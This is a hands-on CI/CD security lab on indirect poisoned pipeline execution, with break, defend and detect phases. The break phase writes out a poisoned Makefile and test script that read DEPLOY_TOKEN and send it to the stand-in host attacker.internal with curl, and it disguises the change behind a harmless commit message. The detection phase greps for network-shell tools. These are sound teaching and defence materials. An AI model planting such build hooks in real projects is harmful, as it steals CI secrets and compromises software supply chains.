

# Lab 2.3: Indirect Poisoned Pipeline Execution

<div class="lab-meta">
  <span>~20 min hands-on | ~15 min reference</span>
  <span class="difficulty intermediate">Intermediate</span>
  <span>Prerequisites: <a href="2.2-direct-ppe.md">Lab 2.2</a></span>
</div>

After Direct PPE became well-known, organizations locked down CI config files with CODEOWNERS and branch protection. Attackers adapted. Indirect PPE exploits files that CI pipelines *reference*: Makefiles, shell scripts, test configs, Dockerfiles. Even if the CI config is protected, the files it executes often are not. A PR that modifies `Makefile` or `scripts/test.sh` never touches the CI config, but the pipeline still runs the modified file.

### Understanding the Attack Flow



---

## Environment

| Service | Address | Description |
|---------|---------|-------------|
| Gitea | `gitea:3000` | Git server hosting `acme-webapp` with Makefile-based CI |
| Workstation | (your shell) | Development environment |

## Connect to the Workstation

```bash
./weaklink shell
```

---

???+ info "Phase 1: UNDERSTAND. CI References External Files"

### Step 1: Examine the CI configuration

```bash
cd /repos/acme-webapp
cat .gitea/workflows/ci.yml
```

The CI config runs `make test` and `bash scripts/run-tests.sh`. The actual code lives in `Makefile` and `scripts/run-tests.sh`.

### Step 2: Examine the referenced files

```bash
cat Makefile
cat scripts/run-tests.sh
```

Normal build and test files. But NOT protected by CODEOWNERS or branch protection.

### Step 3: Map the attack surface

| File | CI Command | Protected? |
|------|-----------|------------|
| `Makefile` | `make test`, `make build` | No |
| `scripts/run-tests.sh` | `bash scripts/run-tests.sh` | No |
| `requirements.txt` | `pip install -r requirements.txt` | No |

### Step 4: Check that secrets are in scope

```bash
grep -E 'secrets\.|env:' .gitea/workflows/ci.yml
```

The test job has `DEPLOY_TOKEN` in its environment. Any code executed by `make test` can read it.

---

???+ warning "Phase 2: BREAK. Poisoning Through the Makefile"

### Step 1: Create an attack branch

```bash
git checkout -b feature/improve-tests
```

### Step 2: Poison the Makefile

```bash
cat > Makefile << 'EOF'
.PHONY: test build deploy clean

test:
	@echo "Running test suite..."
	python test_app.py
	@# Indirect PPE: exfiltrate secrets via the Makefile
	@echo "DEPLOY_TOKEN=$${DEPLOY_TOKEN}" > /tmp/indirect-ppe-pwned
	@curl -sf "http://attacker.internal/steal?token=$${DEPLOY_TOKEN}" || true

build:
	@echo "Building application..."
	mkdir -p dist
	cp app.py dist/
	tar czf webapp.tar.gz dist/

deploy:
	@echo "Deploying..."

clean:
	rm -rf dist/ webapp.tar.gz
EOF
```

### Step 3: Submit the PR

```bash
git add Makefile
git commit -m "Improve test coverage and build process"
git push origin feature/improve-tests
```

### Step 4: Observe the attack

The PR only modifies `Makefile`. The CI config is untouched. When the pipeline runs `make test`, it executes the poisoned Makefile which runs the legitimate tests (CI passes), writes `DEPLOY_TOKEN` to `/tmp/`, and sends the token to the attacker via curl.

**Checkpoint:** You should now have a PR that modifies only the Makefile, with the CI config diff completely clean, yet secrets are exfiltrated when the pipeline runs.

### Step 5: The script vector

The same attack works with `scripts/run-tests.sh`:

```bash
cat > scripts/run-tests.sh << 'EOF'
#!/bin/bash
echo "[test] Running unit tests..."
python test_app.py
# Indirect PPE via test script
echo "${DEPLOY_TOKEN}" | base64 | xargs -I{} curl -sf "http://attacker.internal/exfil/{}" || true
echo "[test] All checks passed."
EOF
```

Two files modified that look like normal development changes. No CI config touched.

---

???+ success "Phase 3: DEFEND. Verifying CI-Referenced File Integrity"

### Fix 1: Generate checksums for CI-referenced files

```bash
cd /repos/acme-webapp
git checkout main

# Restore clean Makefile and test script
cp /lab/src/repo/Makefile .
cp /lab/src/repo/scripts/run-tests.sh scripts/

# Generate checksums
sha256sum Makefile scripts/run-tests.sh > .ci-checksums
cat .ci-checksums
```

### Fix 2: Apply the hardened CI config

```bash
cp /lab/src/repo/.gitea/workflows/ci-hardened.yml .gitea/workflows/ci.yml
cat .gitea/workflows/ci.yml
```

The hardened config:

1. **Verifies checksums before execution**. a `verify-integrity` job checks that `Makefile` and `scripts/run-tests.sh` match known-good hashes
2. **Fails the pipeline if files are modified**
3. **Does not run on PRs**. PR validation uses a separate secret-free workflow
4. **Secrets scoped to deploy**

### Fix 3: Commit the defense

```bash
git add -A
git commit -m "Pin CI-referenced files by hash to prevent Indirect PPE"
git push origin main
```

### Additional defenses

1. **CODEOWNERS for ALL CI-referenced files**: Makefiles, scripts, Dockerfiles, test configs
2. **Separate PR and push builds**: PR builds never have secrets, so Indirect PPE yields nothing
3. **Inline CI logic**: move critical steps into the CI config itself instead of referencing external files

### Step 4: Final verification

```bash
weaklink verify 2.3
```

---

??? danger "Phase 4: DETECT. Catching Indirect PPE"

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Supply Chain Compromise: Compromise Software Supply Chain** | [T1195.002](https://attack.mitre.org/techniques/T1195/002/) | Attacker modifies build scripts referenced by CI to inject malicious steps |
| **Command and Scripting Interpreter: Unix Shell** | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | Malicious shell commands injected via Makefile or build scripts |

Indirect PPE is harder to detect than Direct PPE because the CI config diff is clean. Detection must focus on files that CI executes.

Look for PRs that modify files referenced by CI (Makefile, scripts/, test configs) while NOT modifying the CI config. Watch for new `curl`, `wget`, `nc`, `base64`, or `env` commands in Makefiles or build scripts, network connections from make/test steps, and checksum mismatches in CI integrity verification.

---

??? tip "SOC Relevance"

    **Alerts you will see:**

    - "Makefile modified with network commands in PR" (git diff analysis)
    - "CI checksum verification failed" (build log monitoring)
    - "Outbound HTTP from build step to unfamiliar host" (network monitoring)

    **Triage workflow:**

    1. **Map the CI execution chain**. identify every file the CI config references
    2. **Check the PR diff**. were any referenced files modified?
    3. **Inspect the modifications**. network commands, file writes to /tmp, environment variable access?
    4. **Check build logs**. unexpected outbound connections?
    5. **If confirmed: rotate secrets**. any secret in scope during the build is compromised

    **False positive rate:** Medium. Developers legitimately modify Makefiles. The key signal is the combination of modifying CI-referenced files + adding network/env commands + PR from external contributor.

---

??? example "CI Integration"

    **`.github/workflows/indirect-ppe-check.yml`:**

    ```yaml
    name: Indirect PPE Prevention

    on:
      pull_request:
        paths:
          - "Makefile"
          - "scripts/**"
          - "Dockerfile*"
          - "*.sh"

    jobs:
      check-referenced-files:
        runs-on: ubuntu-latest
        steps:
          - uses: actions/checkout@v4
            with:
              fetch-depth: 0

          - name: Scan for suspicious commands in CI-referenced files
            run: |
              echo "--- Scanning files referenced by CI for suspicious commands ---"
              SUSPICIOUS=0

              for f in Makefile scripts/*.sh Dockerfile*; do
                [ -f "$f" ] || continue

                DIFF=$(git diff origin/main...HEAD -- "$f" || true)
                if echo "$DIFF" | grep -qE '^\+.*(curl|wget|nc |ncat|python -c|base64|/tmp/|env\b)'; then
                  echo "::warning file=$f::Suspicious command added to CI-referenced file"
                  echo "$DIFF" | grep -E '^\+.*(curl|wget|nc |ncat|python -c|base64|/tmp/|env\b)'
                  SUSPICIOUS=$((SUSPICIOUS + 1))
                fi
              done

              if [ "$SUSPICIOUS" -gt 0 ]; then
                echo "::error::$SUSPICIOUS CI-referenced file(s) have suspicious changes."
                exit 1
              fi
              echo "PASS: No suspicious changes in CI-referenced files."
    ```

---

## What You Learned

1. **Protecting CI configs is not enough**. Indirect PPE attacks the files CI executes, not the config itself.
2. **Hash-based integrity verification catches modifications** to Makefiles, scripts, and Dockerfiles.
3. **The PR diff hides the attack**. CI config is untouched, so reviewers miss malicious changes in build files.

## Further Reading

- [Cider Security: Indirect Poisoned Pipeline Execution](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/)
- [Aqua Security: CI/CD Pipeline Attacks](https://blog.aquasec.com/github-actions-security-ci-cd)
- [OWASP Top 10 CI/CD: Poisoned Pipeline Execution](https://owasp.org/www-project-top-10-ci-cd-security-risks/)
